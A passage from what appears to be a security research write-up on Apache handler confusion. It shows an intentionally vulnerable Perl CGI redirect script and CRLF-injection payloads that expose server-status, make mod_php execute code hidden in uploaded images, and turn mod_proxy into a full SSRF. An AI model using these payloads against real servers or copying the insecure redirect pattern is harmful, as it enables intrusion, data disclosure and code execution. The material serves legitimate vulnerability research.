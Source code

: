 CRLF Injection in the CGI response headers, allowing overwriting of existing HTTP headers by new lines.
SSRF that can completely control the response headers, such as a project hosted on mod_wsgi like django-revproxy.
The following examples are all based on this insecure CRLF Injection for the purpose of demonstration:

#!/usr/bin/perl 
 
use CGI;
my $q = CGI->new;
my $redir = $q->param("r");
if ($redir =~ m{^https?://}) {
    print "Location: $redir\n";
}
print "Content-Type: text/html\n\n";
✔️ 3-2-1. Arbitrary Handler to Information Disclosure
Starting with invoking an arbitrary handler to disclose information, we use the built-in server-status handler in Apache HTTP Server, which is typically only allowed to be accessed locally:

<Location /server-status>
    SetHandler server-status
    Require local
</Location>
With the ability to invoke any handler, it becomes possible to overwrite the Content-Type to access sensitive information that should not be accessible remotely:

http://server/cgi-bin/redir.cgi?r=http:// %0d%0a
Location:/ooo %0d%0a
Content-Type:server-status %0d%0a
%0d%0a



✔️ 3-2-2. Arbitrary Handler to Misinterpret Scripts
It’s also easy to transform an image with a legitimate extension into a PHP backdoor. For instance, this primitive allows specifying mod_php to execute embedded malicious code within the image, like:

http://server/cgi-bin/redir.cgi?r=http:// %0d%0a
Location:/uploads/avatar.webp %0d%0a
Content-Type:application/x-httpd-php %0d%0a
%0d%0a

✔️ 3-2-2. Arbitrary Handler to Full SSRF
Calling the mod_proxy to access any protocol on any URL is, of course, straightforward:

http://server/cgi-bin/redir.cgi?r=http:// %0d%0a
Location:/ooo %0d%0a
Content-Type:proxy:http://example.com/%3F %0d%0a
%0d%0a

Moreover, this is also a full-control SSRF where you can control all request headers and obtain all HTTP responses! A slight disappointment is when accessing Cloud Metadata, mod_proxy automatically adds an X-Forwarded-For header, which gets blocked by EC2 and GCP’s Metadata protection mechanisms, otherwise, this would be an even more powerful primitive.

